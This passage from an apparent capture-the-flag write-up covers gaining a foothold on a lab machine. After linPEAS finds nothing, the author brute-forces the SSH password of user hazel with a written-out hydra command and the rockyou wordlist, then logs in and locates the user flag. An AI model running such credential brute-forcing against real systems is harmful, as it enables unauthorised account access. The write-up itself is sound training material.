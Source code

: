 I upload **linPEAS** and run it, and it doesn't find anything either.

So not having much else to go on and knowing we have another user named **hazel** I try a few passwords such as password, password123, etc and don't have luck with that.

I try and brute force my way into their account with **hydra**:

`hydra -l hazel -P rockyou.txt 10.10.20.17 ssh`

It takes awhile, but does find it, and I should have tried it from the start:

```
[22][ssh] host: 10.10.20.17   login: hazel   password: <REDACTED>
```

<br>

## Hazel

`ssh hazel@10.10.20.17`

```
hazel@10.10.20.17's password: 
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-91-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon 23 May 2022 10:09:41 PM UTC

  System load:  0.0               Processes:             118
  Usage of /:   58.4% of 9.78GB   Users logged in:       0
  Memory usage: 71%               IPv4 address for eth0: 10.10.20.17
  Swap usage:   0%


8 updates can be applied immediately.
8 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Sun Dec 12 04:36:05 2021 from 10.0.2.15
hazel@biblioteca:~$
```

Waiting for us in the home directory is our first flag: **user.txt**:

`wc -c user.txt`
